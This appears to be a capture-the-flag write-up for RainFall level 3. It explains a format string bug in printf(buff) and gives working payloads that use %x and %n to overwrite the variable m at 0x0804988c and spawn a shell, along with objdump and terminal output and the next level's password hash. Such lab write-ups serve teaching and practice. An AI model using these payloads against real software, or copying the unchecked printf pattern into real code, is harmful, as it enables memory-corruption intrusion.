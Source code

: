 # Level 3

As usual, there is a binary which we decompiled [here](./level3_decomp.c).

The `return system("/bin/sh")` jumps to our eyes, it requires to pass a check, `m` must be equal to `64`. Easy, right?

We don't have a big impact on aything except the printf located later which prints our buffer. Good news for us, that's all we need.

## Exploit

We will need to change the value of `m` to pass our check and open a shell, so first thing first, we need to find its address:

```bash
level3@RainFall:~$ objdump -t level3 | grep m
level3:     file format elf32-i386
080481b8 l    d  .dynsym        00000000              .dynsym
08048618 l    d  .eh_frame_hdr  00000000              .eh_frame_hdr
08048654 l    d  .eh_frame      00000000              .eh_frame
0804974c l    d  .dynamic       00000000              .dynamic
00000000 l    d  .comment       00000000              .comment
08049884 l     O .bss   00000001              completed.6159
08048480 l     F .text  00000000              frame_dummy
08048734 l     O .eh_frame      00000000              __FRAME_END__
0804974c l     O .dynamic       00000000              _DYNAMIC
00000000       F *UND*  00000000              system@@GLIBC_2.0
00000000  w      *UND*  00000000              __gmon_start__
00000000       F *UND*  00000000              __libc_start_main@@GLIBC_2.0
0804988c g     O .bss   00000004              m
0804851a g     F .text  0000000d              main
level3@RainFall:~$
```

So we know the adress of m: `0804988c`.

Now the fact that `printf(buff)` is used makes it vulnerable compared to `printf("%s\n", buff)`. Which means our string will be replaced like well, inside a printf!

For example: 

```bash
level3@RainFall:~$ ./level3
aaaa %x %x %x %x
aaaa 200 b7fd1ac0 b7ff37d0 61616161
```

It prints our string, then the address of ENV, some more addresses for locals and finally, our string.

And now, we can use something clever, we can input the adress of `m` as the first parameters, then use `%x` to pop the element of the stack until we arrive at the address of `m`, and write what we want!
`%n` is used to write the bytes we wrote with printf, to the last address pushed onto the stack so m, it will write 49 + the previous bytes = 64 to `m`:

```bash
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%x%x%49u%n"' > /var/crash/write
level3@RainFall:~$ cat /var/crash/write - | ./level3
��200b7fd1ac0                                       3086956496
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```


### Alternate write

We can also substitute the `49u` and instead print 38 a, which will produce the same result!

```bash
python2 -c 'print "\x8c\x98\x04\x08" + "%x "*3 + "a"*38 + "%n"' > /var/crash/write
```

b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
